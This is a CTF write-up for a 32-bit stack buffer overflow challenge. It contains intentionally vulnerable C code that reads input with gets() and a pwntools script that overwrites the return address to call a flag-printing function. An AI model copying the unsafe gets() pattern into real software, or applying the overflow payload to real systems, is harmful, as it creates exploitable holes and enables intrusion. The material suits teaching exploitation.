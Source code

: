 # Bof to the top

## Description

> Anything it takes to climb the ladder of success
>
> nc ctf.umbccd.io 4000

Attached is the binary and the c code.

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

## Solution

This is a fairly easy exploit as the source code is given. Function `audition` prints the flag, we just need to reach it from `get_audition_info`. We can overflow the buffer to overwrite the return address and set it to `audition`'s address. We also need to pass the correct arguments to the function, we can also give them by modifying the stack.

```python
from pwn import *

audition = 0x08049182
ebp = 0xffffd5e8

sh = remote("ctf.umbccd.io", 4000)

print(sh.recvuntil("name?").decode())
sh.sendline("Hello")
print(sh.recvuntil("singing?").decode())

payload = b'0'*100 + p32(ebp) + p32(ebp) + p32(ebp) + p32(audition) + p32(ebp) + p32(1200) + p32(366)

sh.sendline(payload)

sh.interactive()
```

![bof](../images/bof.png)

Flag: `DawgCTF{wh@t_teAm?}`